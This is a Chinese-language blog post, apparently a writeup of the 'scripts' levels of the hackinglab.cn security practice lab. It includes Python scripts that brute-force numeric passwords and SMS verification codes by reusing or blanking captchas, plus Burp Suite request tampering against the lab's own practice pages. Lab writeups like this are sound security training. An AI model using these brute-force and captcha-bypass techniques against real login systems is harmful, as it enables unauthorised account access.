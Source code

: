 ```yaml
---
layout: post
title: 网络安全实验室--脚本关writeup
tag: codes
---
```


<h2>开始</h2>

最近开始搞网络安全方面的实践，找到了[网络安全实验室](http://hackinglab.cn)这个网站。做了小部分的题目，顺便记录下做题过程的writeup。

<h2>脚本关</h2>

<h6>[第一关]</h6>

点击链接后，页面会直接跳转到no_key_is_here_forever.php这个页面，然而根据页面源代码，应该是首先跳转到search_key.php。

<img src="/images/writeup1.png" />

所以，在search_key.php这个页面存在猫腻，接下来就是利用brup suite进行对数据的截取。
在http history中，找到三次get数据，其中关于search_key.php的响应如下：

<img src="/images/writeup1_1.png" />

Get Key! 从响应中也能发现，返回了一段script代码，页面自动跳转到no_key_is_here_forever.php，所以看不到返回的key。

<h6>[第二关]</h6>

经过观察，给出式子的格式是固定的，那么就只要获取数字，代入公式一样得出结果。
所以用python写脚本：

{% highlight python %}
#coding:utf-8
import requests
from bs4 import BeautifulSoup
import re

cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
url = 'http://lab1.xseclab.com/xss2_0d557e6d2a4ac08b749b61473a075be1/index.php'
response = requests.get(url,cookies=cookie)

soup = BeautifulSoup(response.text,'html.parser')
form = soup.find('form')
form = str(form)
snum = re.findall(r'\d+',form)

num = []
for n in snum[1:]:
	num.append(int(n))

result = num[0] * num[1] +num[2] * (num[3] + num[4])

post = {'v' : result}
res = requests.post(url,cookies=cookie,data=post)

print res.content
{% endhighlight %}
结果：

<img src="/images/writeup2_1.png" />

Get key!

<h6>[第三关]</h6>

第三关没有链接，提示是这个题目是空的，空的，空：null(还提示是小写)。

<h6>[第四关]</h6>

点击网页上的链接，并没有出现弹窗。观察了一下页面源码。

<img src="/images/writeup4_1.png" />

前两个js函数导致弹窗的失败，试过把后面所要的代码放进到chrome中的console中运行，报错。然后就只能直接保存页面，删除文件里面的两个函数，直接打开。

<img src="/images/writeup4_2.png" />

Get key!

<h6>[第五关]</h6>

暴力破解4位纯数字的密码，但是有验证码。虽然python能自动识别验证码，但是应该也能有什么绕过的方法。
依旧是开启brup suite，对提交的数据进行获取，然后放进brup suite里面重复提交，偶然发现只要页面没有进行刷新，产生的验证码就一直有效。
既然是脚本关，那就得用脚本来解决问题。

{% highlight python%}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php'

username = 'admin'
submit = 'submit'

pwd = 1000
cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'pwd':pwd,'vcode':'zp9p','submit':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',pwd
	pwd += 1
	if 'pwd' not in res.content:
		break

{% endhighlight %}

<img src="/images/writeup5_1.png" />

Get key!

<h6>[第六关]</h6>

依旧是验证码的问题。试试留空能不能绕过。

{% highlight python%}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php'

username = 'admin'
submit = 'submit'

pwd = 1000
cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'pwd':pwd,'vcode':'','submit':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',pwd
	pwd += 1
	if 'pwd' not in res.content:
		break

{% endhighlight %}

<img src="/images/writeup6_1.png" />

Get key!

<h6>[第七关]</h6>

同上，留空绕过验证码。

<img src="/images/writeup7_1.png" />

<h6>[第八关]</h6>

暂时没有解出来。

<h6>[第九关]</h6>

手机验证码登录，获取验证码后，提示please login as 13388886667，那就用这个号登录呗，又被告知

<img src="/images/writeup9_1.png" />

只能再用brup suite进行截取数据了。

<img src="/images/writeup9_2.png" />

有用只有6666这个号码能获取到验证码，那么就修改下数据包里面的参数，将号码改成6666获取一波验证码，试试看有没有用。

<img src="/images/writeup9_3.png" />

Get Key!

<h6>[第十关]</h6>
依旧是验证码，三位数的，python暴力的跑吧。

{% highlight python %}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/login.php'

username = '13388886666'
submit = 'submit'

vcode = 100
fobj = open('t.html','w')

cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'vcode':vcode,'login':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',vcode
	vcode += 1
	fobj.writelines(res.content)
	if 'key'  in res.content:
		break

{% endhighlight %}
将所有的响应结果保存下来，发现这个。

<img src="/images/writeup10_1.png" />

再登录提示的账号，只要修改脚本里面的username就可以了。

<img src="/images/writeup10_2.png" />

Get Key!

